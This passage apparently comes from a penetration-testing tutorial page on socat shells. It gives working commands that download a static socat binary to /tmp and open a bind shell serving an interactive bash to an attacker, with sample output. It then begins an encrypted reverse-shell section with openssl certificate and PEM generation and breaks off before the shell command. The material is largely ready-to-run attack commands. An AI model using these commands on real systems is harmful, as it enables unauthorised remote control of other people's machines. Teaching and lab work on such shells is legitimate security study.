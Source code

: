 `Socat` shell is stabilised and sanitised by default and does not need additional configurations after gaining `shell`.

Create a `socat` listener in target machine.
{% capture code %}{% raw %}wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat TCP-L:4430 EXEC:"bash -li",pty,stderr,sigint,setsid,sane{% endraw %}{% endcapture %} {%include code.html code=code %}

Activate the `bind shell` from the attacker.
{% capture code %}{% raw %}wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat TCP:<target-ip>:4430 FILE:`tty`,raw,echo=0{% endraw %}{% endcapture %} {%include code.html code=code %}

An output similar to below will be obtained in `socat` listener.
{% capture code %}{% raw %}shell@linux-shell-practice:~$ ^C
shell@linux-shell-practice:~$ exit
logout{% endraw %}{% endcapture %} {%include code.html code=code %}


### Encrypted Socat Shell - Linux

`Socat` can be installed from distribution repo or a standalone binary can be downloaded and used. The links for standalone binaries for linux is [here](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true){:target="_blank"} and windows is [here](https://sourceforge.net/projects/unix-utils/files/socat/){:target="_blank"}.

`Socat` shell is stabilised and sanitised by default and does not need additional configurations after gaining `shell`. The following is an example for `reverse shell`. For `bind shell`, the generated certificate should be copied to target machine before creating a listener.

Using `openssl`, create a self-signed `cert` and `key`.
{% capture code %}{% raw %}openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt{% endraw %}{% endcapture %} {%include code.html code=code %}

An output similar to below will be obtained. Default values can be accepted or set manually.
{% capture code %}{% raw %}Generating a RSA private key
writing new private key to 'shell.key'
You are about to be asked to enter information that will be incorporated
into your certificate request.
What you are about to enter is what is called a Distinguished Name or a DN.
There are quite a few fields but you can leave some blank
For some fields there will be a default value,
If you enter '.', the field will be left blank.
Country Name (2 letter code) [AU]:
State or Province Name (full name) [Some-State]:
Locality Name (eg, city) []:
Organization Name (eg, company) [Internet Widgits Pty Ltd]:
Organizational Unit Name (eg, section) []:
Common Name (e.g. server FQDN or YOUR name) []:
Email Address []:{% endraw %}{% endcapture %} {%include code.html code=code %}

Create `pem` file from the generated `cert` and `key` files.
{% capture code %}{% raw %}cat shell.key shell.crt > shell.pem{% endraw %}{% endcapture %} {%include code.html code=code %}
